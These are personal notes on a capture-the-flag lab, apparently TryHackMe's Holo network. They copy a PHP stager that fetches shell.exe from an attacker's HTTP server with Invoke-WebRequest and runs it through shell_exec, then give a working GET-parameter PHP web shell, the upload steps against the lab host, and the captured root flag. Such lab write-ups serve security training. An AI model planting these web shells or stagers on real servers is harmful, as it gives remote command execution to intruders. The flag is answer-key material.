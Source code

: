 Now that we have a working executable that can bypass anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.  

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source code for the template below.  

```
 <?php  
  function compile_stager() {  
    $init = "powershell.exe";  
    $payload = ""; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }   
  
  compile_stager();  
?>
```

The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the webserver. Of course, this will only work if you can execute privileges on the system.  

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.  

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.  

`Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe`

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the webserver's root directory to identify where you can and cannot execute the file, such as if AppLocker or other solutions are employed on the server.  

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.  

`.\notashell.exe` or `cmd /c .\notashell.exe`

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.  

```
<?php  
  function get_stager() {  
    $init = "powershell.exe";  
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }  
 function execute_stager() {  
  $init = "powershell.exe";  
    $payload = ".\notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
 }  
  get_stager();  
  execute_stager();  
  die();  
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, [https://github.com/Cryilllic/PHP-PowerShell/tree/main](https://github.com/Cryilllic/PHP-PowerShell/tree/main).


---

# Your job

Time to try and exploit this web-app. Remember way back in [[Task 29 - Thanks, I'll let myself in.]] we found the `/images/` directory so we can run PHP code, that isn’t malicious. Well let’s give that a go.

> [!failure]
> Don't bother yourself trying the above method, according to someone else's writeups it doens't work.

Instead follow the [[Marmeus' walkthrough]].


## Uploading a web-shell to 10.200.X.31

It's used the following web-shell which didn’t get caught.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
```

1. Create a php file with the above code on your attacking machine.
2. Navigate to http://10.200.X.31/img_upload.php and upload the file.
3. Navigate to http://10.200.X.31/images/webshell.php.
	![[Task 35 - Wrapping the burrito-20241014144328981.webp]]
	Now you can run any command on the form.
	
> [!INFO]
You are root onto  S-SRV01.

---

## Flag after rooting S-SRV01

- Run the following on the form.
	`type C:\Users\Administrator\Desktop\root.txt`
	
	HOLO{50f9614809096ffe2d246e9dd21a76e1}

- Submit the user flag on Task 4, question 5.

**Next step:** [[Task 36 -  That's not a cat that's a dawg#hoaxshell]]
